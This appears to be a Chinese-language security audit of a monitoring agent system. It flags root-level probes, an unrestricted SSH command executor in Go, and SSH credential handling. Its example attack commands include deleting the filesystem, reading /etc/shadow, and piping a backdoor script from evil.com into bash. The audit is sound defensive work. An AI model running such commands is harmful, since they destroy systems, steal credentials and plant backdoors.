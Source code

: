 #### 风险 1: 探针以最高权限运行

**影响范围**: 系统级

- **Linux**: 服务以 `root` 用户身份运行
- **Windows**: 可能以 `SYSTEM` 或 Administrator 运行
- **风险等级**: 🔴 高危
- **攻击场景**:
  - 探针程序存在漏洞被利用
  - 配置文件被恶意修改
  - 进程被注入恶意代码
  - **后果**: 攻击者获得系统完全控制权

#### 风险 2: 无限制的远程命令执行能力

**代码位置**: `agents/nats-executor/ssh/executor.go`

```go
func Execute(req ExecuteRequest, instanceId string) ExecuteResponse {
    // 可以执行任意命令，无白名单限制
    client := goph.NewConn(&goph.Config{
        User:     username,
        Addr:     host,
        Port:     port,
        Auth:     goph.Password(password),
    })

    output, err := client.RunContext(ctx, command)  // ⚠️ 无过滤
}
```

**风险等级**: 🔴 高危

**攻击场景**:
1. NATS 消息总线被攻破
2. 服务器端管理员账户被窃取
3. 内部恶意用户滥用权限

**可能的恶意操作**:
```bash
# 攻击者可以执行的命令示例
rm -rf /                          # 删除系统文件
cat /etc/shadow                   # 窃取密码哈希
curl http://evil.com/backdoor.sh | bash  # 植入后门
```

#### 风险 3: SSH 凭证安全问题

**代码位置**: `server/apps/node_mgmt/services/installer.py:34-44`

```python
aes_obj = AESCryptor()
for node in nodes:
    creates.append(ControllerTaskNode(
        ...
        password=aes_obj.encode(node["password"]),  # AES 加密
        ...
    ))
```
